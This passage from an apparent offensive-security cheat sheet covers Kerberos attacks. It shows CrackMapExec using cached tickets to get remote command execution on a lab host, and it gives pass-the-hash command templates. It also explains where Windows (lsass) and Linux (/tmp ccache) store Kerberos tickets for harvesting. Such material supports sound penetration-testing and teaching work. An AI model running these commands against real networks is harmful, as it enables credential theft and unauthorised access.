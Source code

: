     Or, using --use-kcache

    $ export KRB5CCNAME=/home/bonclay/impacket/administrator.ccache
    $ cme smb zoro.gold.local --use-kcache
    SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
    SMB         zoro.gold.local 445    ZORO             [+] gold.local\administrator (Pwn3d!)

    sudo cme smb zoro.gold.local --use-kcache -x whoami

    SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
    SMB         zoro.gold.local 445    ZORO             [+] gold.local\administrator (Pwn3d!)
    SMB         zoro.gold.local 445    ZORO             [+] Executed command
    SMB         zoro.gold.local 445    ZORO             gold\administrator

    $ export KRB5CCNAME=/home/bonclay/impacket/bonclay.ccache
    $ sudo cme smb zoro.gold.local --use-kcache -x whoami
    SMB         zoro.gold.local 445    ZORO             [*] Windows 10.0 Build 14393 (name:ZORO) (domain:gold.local) (signing:False) (SMBv1:False)
    SMB         zoro.gold.local 445    ZORO             [+] gold.local\bonclay
    ```
*   **Kerberos Enumeration:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p <password> --kerberos
    ```
*   **Pass-the-Hash:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -H <NTLM hash> --kerberos
    ```

### Other Techniques

#### Harvesting Tickets From Windows

In Windows, tickets are handled and stored by the lsass (Local Security Authority Subsystem Service) process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to communicate with lsass and ask for them. As a non-administrative user only owned tickets can be fetched, however, as machine administrator, all of them can be harvested.

#### Harvesting Tickets From Linux

On Linux, tickets are stored in credential caches or ccaches. There are 3 main types, which indicate where tickets can be found:

* Files, by default under `/tmp directory`, in the form of `krb5cc_%{uid}`.
* Kernel Keyrings, an special space in the Linux kernel provided for storing keys.
* Process memory, used when only one process needs to use the tickets.

To verify what type of storage is used in a specific machine, the variable `default_ccache_name` must be checked in the `/etc/krb5.conf` file, which by default has read permission to any user. In case of this parameter being missing, its default value is `FILE:/tmp/krb5cc_%{uid}`.

In order to extract tickets from the other 2 sources (keyrings and processes), a great paper, Kerberos Credential Thievery (GNU/Linux), released in 2017, explains ways of recovering the tickets from them.
